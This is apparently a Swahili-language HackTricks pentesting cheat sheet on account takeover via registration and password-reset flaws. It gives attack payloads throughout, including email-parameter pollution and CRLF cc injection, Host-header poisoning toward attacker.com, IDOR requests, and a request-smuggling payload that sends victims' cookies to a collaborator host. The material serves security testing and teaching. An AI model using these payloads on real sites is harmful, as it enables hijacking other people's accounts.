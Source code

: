 # Usajili & Ukatili wa Akaunti

{% hint style="success" %}
Jifunze & fanya mazoezi ya AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Jifunze & fanya mazoezi ya GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Angalia [**mpango wa usajili**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **fuata** sisi kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu za hacking kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>
{% endhint %}


## Ukatili wa Usajili

### Usajili wa Nakala

* Jaribu kuunda kwa kutumia jina la mtumiaji lililopo
* Angalia kubadilisha barua pepe:
* herufi kubwa
* \+1@
* ongeza nukta kwenye barua pepe
* wahusika maalum katika jina la barua pepe (%00, %09, %20)
* Weka wahusika weusi baada ya barua pepe: `test@test.com a`
* victim@gmail.com@attacker.com
* victim@attacker.com@gmail.com

### Uhesabuji wa Jina la Mtumiaji

Angalia kama unaweza kubaini wakati jina la mtumiaji tayari limeregisteriwa ndani ya programu.

### Sera ya Nywila

Unapounda mtumiaji angalia sera ya nywila (angalia kama unaweza kutumia nywila dhaifu).\
Katika hali hiyo unaweza kujaribu kubruteforce taarifa za kuingia.

### SQL Injection

[**Angalia ukurasa huu** ](sql-injection/#insert-statement)kujifunza jinsi ya kujaribu ukatili wa akaunti au kutoa taarifa kupitia **SQL Injections** katika fomu za usajili.

### Oauth Takeovers

{% content-ref url="oauth-to-account-takeover.md" %}
[oauth-to-account-takeover.md](oauth-to-account-takeover.md)
{% endcontent-ref %}

### SAML Vulnerabilities

{% content-ref url="saml-attacks/" %}
[saml-attacks](saml-attacks/)
{% endcontent-ref %}

### Badilisha Barua Pepe

Wakati wa usajili jaribu kubadilisha barua pepe na angalia kama mabadiliko haya yanathibitishwa kwa usahihi au unaweza kuyabadilisha kuwa barua pepe zisizo na mpangilio.

### Ukaguzi Zaidi

* Angalia kama unaweza kutumia **barua pepe za muda**
* **Nywila** **ndefu** (>200) inasababisha **DoS**
* **Angalia mipaka ya viwango kwenye uundaji wa akaunti**
* Tumia username@**burp\_collab**.net na uchambue **callback**

## **Ukatili wa Kurekebisha Nywila**

### Kuvuja kwa Tokeni ya Kurekebisha Nywila Kupitia Referrer <a href="#password-reset-token-leak-via-referrer" id="password-reset-token-leak-via-referrer"></a>

1. Omba kurekebisha nywila kwa anwani yako ya barua pepe
2. Bonyeza kwenye kiungo cha kurekebisha nywila
3. Usibadilishe nywila
4. Bonyeza tovuti zozote za 3rd party (mfano: Facebook, twitter)
5. Kamatia ombi katika Burp Suite proxy
6. Angalia kama kichwa cha referer kinavuja tokeni ya kurekebisha nywila.

### Ukatili wa Kurekebisha Nywila <a href="#account-takeover-through-password-reset-poisoning" id="account-takeover-through-password-reset-poisoning"></a>

1. Kamatia ombi la kurekebisha nywila katika Burp Suite
2. Ongeza au hariri vichwa vifuatavyo katika Burp Suite : `Host: attacker.com`, `X-Forwarded-Host: attacker.com`
3. Tuma ombi na kichwa kilichobadilishwa\
`http POST https://example.com/reset.php HTTP/1.1 Accept: */* Content-Type: application/json Host: attacker.com`
4. Tafuta URL ya kurekebisha nywila kulingana na _kichwa cha host_ kama : `https://attacker.com/reset-password.php?token=TOKEN`

### Kurekebisha Nywila Kupitia Kigezo cha Barua Pepe <a href="#password-reset-via-email-parameter" id="password-reset-via-email-parameter"></a>
```powershell
# parameter pollution
email=victim@mail.com&email=hacker@mail.com

# array of emails
{"email":["victim@mail.com","hacker@mail.com"]}

# carbon copy
email=victim@mail.com%0A%0Dcc:hacker@mail.com
email=victim@mail.com%0A%0Dbcc:hacker@mail.com

# separator
email=victim@mail.com,hacker@mail.com
email=victim@mail.com%20hacker@mail.com
email=victim@mail.com|hacker@mail.com
```
### IDOR on API Parameters <a href="#idor-on-api-parameters" id="idor-on-api-parameters"></a>

1. Mshambuliaji lazima aingie kwenye akaunti yao na aende kwenye kipengele cha **Badilisha nenosiri**.
2. Anza Burp Suite na uingilie ombi hilo.
3. Tuma kwenye tab ya repeater na uhariri vigezo: User ID/email\
`powershell POST /api/changepass [...] ("form": {"email":"victim@email.com","password":"securepwd"})`

### Weak Password Reset Token <a href="#weak-password-reset-token" id="weak-password-reset-token"></a>

Token ya kubadilisha nenosiri inapaswa kuundwa kwa bahati nasibu na kuwa ya kipekee kila wakati.\
Jaribu kubaini kama token hiyo inaisha muda au kama kila wakati ni ile ile, katika baadhi ya matukio algorithm ya uzalishaji ni dhaifu na inaweza kukisiwa. Vigezo vifuatavyo vinaweza kutumika na algorithm.

* Timestamp
* UserID
* Barua pepe ya Mtumiaji
* Jina la Kwanza na Jina la Mwisho
* Tarehe ya Kuzaliwa
* Cryptography
* Nambari pekee
* Mfululizo mdogo wa token (herufi kati ya \[A-Z,a-z,0-9])
* Tumia tena token
* Tarehe ya kumalizika kwa token

### Leaking Password Reset Token <a href="#leaking-password-reset-token" id="leaking-password-reset-token"></a>

1. Trigger ombi la kubadilisha nenosiri kwa kutumia API/UI kwa barua pepe maalum e.g: test@mail.com
2. Kagua jibu la seva na angalia kwa `resetToken`
3. Kisha tumia token hiyo katika URL kama `https://example.com/v3/user/password/reset?resetToken=[THE_RESET_TOKEN]&email=[THE_MAIL]`

### Password Reset Via Username Collision <a href="#password-reset-via-username-collision" id="password-reset-via-username-collision"></a>

1. Jisajili kwenye mfumo kwa jina la mtumiaji linalofanana na jina la mtumiaji wa mwathirika, lakini ukiweka nafasi za wazi kabla na/au baada ya jina la mtumiaji. e.g: `"admin "`
2. Omba kubadilisha nenosiri kwa jina lako la mtumiaji la uhalifu.
3. Tumia token iliyotumwa kwa barua pepe yako na ubadilishe nenosiri la mwathirika.
4. Unganisha kwenye akaunti ya mwathirika kwa nenosiri jipya.

Jukwaa la CTFd lilikuwa na udhaifu kwa shambulio hili.\
Tazama: [CVE-2020-7245](https://nvd.nist.gov/vuln/detail/CVE-2020-7245)

### Account Takeover Via Cross Site Scripting <a href="#account-takeover-via-cross-site-scripting" id="account-takeover-via-cross-site-scripting"></a>

1. Tafuta XSS ndani ya programu au subdomain ikiwa vidakuzi vimewekwa kwenye kikoa cha mzazi: `*.domain.com`
2. Leak **vidakuzi vya sasa vya sessions**
3. Thibitisha kama mtumiaji kwa kutumia cookie

### Account Takeover Via HTTP Request Smuggling <a href="#account-takeover-via-http-request-smuggling" id="account-takeover-via-http-request-smuggling"></a>

1\. Tumia **smuggler** kugundua aina ya HTTP Request Smuggling (CL, TE, CL.TE)\
`powershell git clone https://github.com/defparam/smuggler.git cd smuggler python3 smuggler.py -h`\
2\. Tengeneza ombi ambalo litabadilisha `POST / HTTP/1.1` na data ifuatayo:\
`GET http://something.burpcollaborator.net HTTP/1.1 X:` kwa lengo la kufungua upya wa mwathirika kwenda burpcollab na kuiba vidakuzi vyao\
3\. Ombi la mwisho linaweza kuonekana kama ifuatavyo
```
GET / HTTP/1.1
Transfer-Encoding: chunked
Host: something.com
User-Agent: Smuggler/v1.0
Content-Length: 83
0

GET http://something.burpcollaborator.net  HTTP/1.1
X: X
```
Hackerone inaripoti kutumia hitilafu hii\
\* [https://hackerone.com/reports/737140](https://hackerone.com/reports/737140)\
\* [https://hackerone.com/reports/771666](https://hackerone.com/reports/771666)

### Kuchukua Akaunti kupitia CSRF <a href="#account-takeover-via-csrf" id="account-takeover-via-csrf"></a>

1. Tengeneza payload kwa CSRF, mfano: “Fomu ya HTML yenye kuwasilisha kiotomatiki kwa mabadiliko ya nenosiri”
2. Tuma payload

### Kuchukua Akaunti kupitia JWT <a href="#account-takeover-via-jwt" id="account-takeover-via-jwt"></a>

JSON Web Token inaweza kutumika kuthibitisha mtumiaji.

* Hariri JWT kwa ID ya Mtumiaji / Barua pepe nyingine
* Angalia saini dhaifu ya JWT

{% content-ref url="hacking-jwt-json-web-tokens.md" %}
[hacking-jwt-json-web-tokens.md](hacking-jwt-json-web-tokens.md)
{% endcontent-ref %}

## Marejeleo

* [https://salmonsec.com/cheatsheet/account\_takeover](https://salmonsec.com/cheatsheet/account\_takeover)


{% hint style="success" %}
Jifunze & fanya mazoezi ya AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Jifunze & fanya mazoezi ya GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Angalia [**mpango wa usajili**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **fuata** sisi kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu za hacking kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>
{% endhint %}

